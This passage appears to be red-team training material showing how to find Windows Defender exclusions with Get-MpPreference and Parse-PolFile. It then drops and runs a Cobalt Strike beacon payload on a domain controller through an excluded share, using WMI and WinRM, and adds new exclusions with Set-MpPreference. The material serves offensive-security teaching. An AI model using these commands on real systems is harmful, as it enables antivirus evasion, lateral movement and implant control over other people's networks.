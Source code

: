 Pretty much every antivirus solution allows you to define exclusions to on-demand and real-time scanning.  Windows Defender allows admins to add exclusions via GPO, or locally on a single machine.

The three flavours are:

-   Extension - exclude all files by their file extension.
-   Path - exclude all files in the given directory.
-   Process - exclude any file opened by the specified processes.

`Get-MpPreference` can be used to list the current exclusions.  This can be done locally, or remotely using `remote-exec`.

```
beacon> remote-exec winrm dc-2 Get-MpPreference | select Exclusion*

ExclusionExtension : 
ExclusionIpAddress : 
ExclusionPath : {C:\Shares\software}
ExclusionProcess :
```

If the exclusions are configured via GPO and you can find the corresponding Registry.pol file, you can read them with `Parse-PolFile`.

```
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions
ValueName : Exclusions_Paths
ValueType : REG_DWORD
ValueLength : 4
ValueData : 1

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions\Paths
ValueName : C:\Windows\Temp
ValueType : REG_SZ
ValueLength : 4
ValueData : 0
```

  

Being able to write to an excluded directory obviously gives some leeway in dropping and executing a payload, without having to do any modifications to it.

```
beacon> cd \\dc-2\c$\shares\software
beacon> upload C:\Payloads\beacon.exe
beacon> remote-exec wmi dc-2 C:\Shares\Software\beacon.exe
beacon> remote-exec winrm dc-2 cmd /c C:\Shares\Software\beacon.exe
beacon> link dc-2
[+] established link to child beacon: 10.10.17.71
```
  
In a pinch, you can even add your own exclusions.

```
Set-MpPreference -ExclusionPath "<path>"
```
